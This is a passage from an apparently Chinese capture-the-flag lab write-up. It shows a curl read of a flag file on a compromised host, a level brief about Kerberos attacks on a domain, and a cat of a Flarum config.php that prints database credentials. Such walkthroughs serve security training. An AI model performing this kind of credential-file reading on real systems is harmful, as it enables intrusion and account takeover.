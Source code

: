 在被控机器上，访问本机的 web 服务来读取文件：

```console
$ curl --http0.9 -k "https://127.0.0.1:8080/root/flag/flag01.txt"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   496    0   496    0     0  71925      0 --:--:-- --:--:-- --:--:-- 82666
                                 _         _       _   _
  ___ ___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___
 / __/ _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| (_| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \___\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                 |___/

flag01: flag{d0267667-d2c3-4415-b56c-4ee33e1d46c9}
```

## 第 2 关

关卡剧情：

通过 kerberos 攻击的获取域内权限，并进行信息收集。

---

在后台可以查看到有许多用户和邮箱：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/46f54b6624df1d4a.png)

查看配置文件获取数据库的账号密码：

```
$ cat /var/www/html/config.php
<?php return array (
  'debug' => false,
  'database' =>
  array (
    'driver' => 'mysql',
    'host' => 'localhost',
    'port' => 3306,
    'database' => 'flarum',
    'username' => 'root',
    'password' => 'Mysql@root123',
    'charset' => 'utf8mb4',
    'collation' => 'utf8mb4_unicode_ci',
    'prefix' => 'flarum_',
    'strict' => false,
    'engine' => 'InnoDB',
    'prefix_indexes' => true,
  ),
  'url' => 'http://'.$_SERVER['HTTP_HOST'],
  'paths' =>
  array (
    'api' => 'api',
    'admin' => 'admin',
  ),
  'headers' =>
  array (
    'poweredByHeader' => true,
    'referrerPolicy' => 'same-origin',
  ),
);

```
